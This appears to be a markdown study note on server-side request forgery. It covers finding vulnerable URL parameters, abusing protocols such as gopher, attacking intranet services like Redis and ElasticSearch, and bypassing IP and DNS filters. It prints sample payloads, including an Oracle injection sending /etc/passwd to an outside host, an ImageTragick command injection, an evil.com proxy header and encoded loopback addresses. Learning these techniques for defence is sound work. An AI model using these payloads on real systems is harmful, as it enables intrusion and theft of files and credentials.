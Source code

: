 # SSRF
Server Side Request Forge  
Bypass the firewall and grope through the intranet  

![ssrf](https://github.com/shinmao/Web-Security-Learning/blob/master/SSRF/screenshot/SSRF.png)  
1. Find the vulnerable place > 2. with Protocol > 3. Apply to deeper attack > 4. Bypass

# Find the vulnerable place
**Controllable** URL parameter：url, src, imgURL, share, wap, link  
share the content via URL  
translate the context with online translator  
load the pic with URL  
some api  
1. XXE(You can directly see in my XXE part)  
```php
<!ENTITY % file SYSTEM "file://url/xxx">
```
  
2. `file_get_contents($url)`(PHP)  
```php
$image = file_get_contents('http://self-ip');
```
[Day 20 - Stocking](https://www.ripstech.com/php-security-calendar-2017/#day-20)  
  
3. curl(PHP)  
in fact, from `curl -V` we can see the libcurl support many protocols  
  
4. Oracle UTL_HTTP  
```php
?id=1'||CTXSYS.DRITHSX.SN(user,substr(utl_http.request('http://example.com?download=/etc/passwd'),1,160))||'
```  
  
5. ImageTragick  
```php
...
fill 'url(https://example.com/";|ls "-la)'
...
```  
[ImageTragick](https://imagetragick.com/)  
CVE-2016-3718  
POC on Facebook  

6. Header HTTP proxy  
According to CGI, headers in the request would be replaced with env variables  
e.g. Host -> $HTTP_HOST, Proxy -> $HTTP_Proxy  
This is the vul  
```php
GET
...
Proxy: http://evil.com/
```  
hijack the http connection  

In addition to find the potential parameter, we also can set up a server or DNS logger. If we get request from the server side, there might be vul to SSRF somewhere.


# with Protocol  
![](https://farm2.staticflickr.com/1774/43295065584_6cfa758570_b.jpg)  
gopher is an awesome protocol to attack intranet service  
[利用 Gopher 协议拓展攻击面-转载长亭科技](https://blog.chaitin.cn/gopher-attack-surfaces/)  
Jar is a protocol which can be used to create controllable temp file  
FTP or SMB can also be used on bruteforce of password  

# Apply to deeper attack  
Attack service built in intranet  
1. Struts2  
  
2. ElasticSearch - port:9200  
CVE-2014-3120  
CVE-2015-1427  
CVE-2015-3337  
```php
http://example.com:9200/_plugin/head/../../../../../../etc/passwd
```  
  
3. Neo4j, CouchDB, MongoDB  
Visit API -> modify settings -> RCE  
  
4. Tomcat - port:8005  
SSRF with gopher  
  
5. Zabbix - port:10050  
SSRF with gopher  
  
6. Redis - port:6379  
Write shell with gopher -> write SSH key with SAVE -> write crontab with SAVE -> SET to exploit again  

7. FastCGI - port:9000  
```php
gopher://example.com:9000/....
```

# Bypass  
I would check your schema, host, port  
* Bypass DNS limit:  
A special domain provider> `xip.io`  
DNS rebinding: use Round-Robin to bypass  
  
* Bypass ip limit:  
ip can be decimal, hexidecimal, or Octal  
```php
127.0.0.1
127.0.1
127.1
0.0.0.0
0.0
0
0x7f000001
2130706433
017700000001
```  
This tricks can be used to bypass wordpress protection on SSRF in CVE-2016-4029

## Reference
* Orange Slides
